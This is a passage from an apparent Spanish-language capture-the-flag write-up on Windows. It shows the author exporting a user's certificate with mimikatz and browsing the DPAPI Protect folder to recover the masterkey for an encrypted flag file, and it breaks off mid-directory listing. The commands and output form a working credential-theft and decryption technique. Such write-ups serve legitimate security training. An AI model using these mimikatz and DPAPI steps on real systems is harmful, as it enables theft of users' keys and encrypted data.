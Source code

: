 Corresponde con el thumprint del fichero encriptado (user.txt)

Creo un archivo DER de ese thumprint y me lo transfiero al kali

```null
.\mimikatz.exe "crypto::system /file:C:\Users\tolu\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\91EF5D08D1F7C60AA0E4CEE73E050639A6692F29 /export" "exit" 
```

Como ya tengo el certificado, puedo tratar de obtener la masterkey del archivo. Para ello, puedo recurrir a la ruta donde se almacena el backup, que está relacionada con el hash NTLM de cuando fue creado y, por tanto de la contraseña del usuario tolu

```null
PS C:\Users\tolu> cd AppData\Roaming\Microsoft\Protect\ 
PS C:\Users\tolu\AppData\Roaming\Microsoft\Protect> dir 


    Directory: C:\Users\tolu\AppData\Roaming\Microsoft\Protect


Mode                LastWriteTime         Length Name                                                                                                                                                            
----                -------------         ------ ----                                                                                                                                                            
d---s-       12/28/2018   9:56 PM                S-1-5-21-3107372852-1132949149-763516304-1011                                                                                                                   


PS C:\Users\tolu\AppData\Roaming\Microsoft\Protect> dir 


    Directory: C:\Users\tolu\AppData\Roaming\Microsoft\Protect


Mode                LastWriteTime         Length Name                                                                                                                                                            
----                -------------         ------ ----                                                                                                                                                            
d---s-       12/28/2018   9:56 PM                S-1-5-21-3107372852-1132949149-763516304-1011                                                                                                                   


PS C:\Users\tolu\AppData\Roaming\Microsoft\Protect> cd .\S-1-5-21-3107372852-1132949149-763516304-1011\ 
PS C:\Users\tolu\AppData\Roaming\Microsoft\Protect\S-1-5-21-3107372852-1132949149-763516304-1011> dir 
PS C:\Users\tolu\AppData\Roaming\Microsoft\Protect\S-1-5-21-3107372852-1132949149-763516304-1011> dir -force 


    Directory: C:\Users\tolu\AppData\Roaming\Microsoft\Protect\S-1-5-21-3107372852-1132949149-763516304-1011


Mode                LastWriteTime         Length Name                                                                                                                                                            
```